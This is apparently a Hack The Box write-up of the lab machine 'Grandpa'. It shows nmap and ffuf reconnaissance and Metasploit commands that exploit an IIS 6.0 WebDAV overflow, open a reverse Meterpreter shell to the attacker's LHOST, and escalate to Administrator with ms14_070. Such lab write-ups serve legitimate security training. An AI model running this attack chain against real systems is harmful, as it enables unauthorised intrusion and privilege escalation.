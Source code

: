 ```yaml
---
title: "Grandpa - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Grandpa
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Grandpa
![](https://kar0nx.github.io/assets/images/writeup/381683fd107da11f1dc916401ae8aee0.webp)
 
## Reconnaissance

IP: 10.10.10.14
### NMAP

```
nmap -T4 -p- -A 10.10.10.14
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 06:15 EST
Nmap scan report for 10.10.10.14
Host is up (0.032s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Fri, 21 Feb 2025 11:17:32 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (90%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (89%), Microsoft Windows 2003 SP2 (88%), Microsoft Windows XP SP3 (88%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (88%), Microsoft Windows XP SP2 or SP3 (86%), Microsoft Windows XP (85%), Microsoft Windows Server 2003 (85%), Microsoft Windows XP SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.47 ms 10.10.14.1
2   33.77 ms 10.10.10.14

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.35 seconds

```

Nmap shows that only port 80 http - Microsoft IIS httpd 6.0 is open.
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221121637.png)

Site Under construction, not much information here.

## Ffuf

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.14/FUZZ  
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221122220.png)

Nothing special. 

### Google

Let's explore google for Microsoft IIS httpd 6.0 exploits. We got something, Remote Buffer Overflow
https://www.exploit-db.com/exploits/41738
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/

## Gaining Access

```
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
set RPORT 80
set LHOST 10.10.14.15
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221130030.png)

```
systeminfo
```

```
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 47 Minutes, 35 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 753 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,293 MB
Page File: In Use:         177 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```

We notice that system running 32 bit so let's migrate to 32 bit meterpreter

```
ps
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221131940.png)

We got a shell but no privilege to Harry and Administrator files 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221130002.png)

## Privilege Escalation

Lets search for local exploits using suggester

```
background
```

```
search local_exploit_suggester
use multi/recon/local_exploit_suggester
set session 1
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221130753.png)

Let' s try ms14_070_tcpip_ioctl 

```
exploit/windows/local/ms14_070_tcpip_ioctl 
set session 1
set lhost tun0
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221132130.png)

We have Administrator privilege, to get flags simply navigate to
```
C:\Documents and Settings\Harry\Desktop\user.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```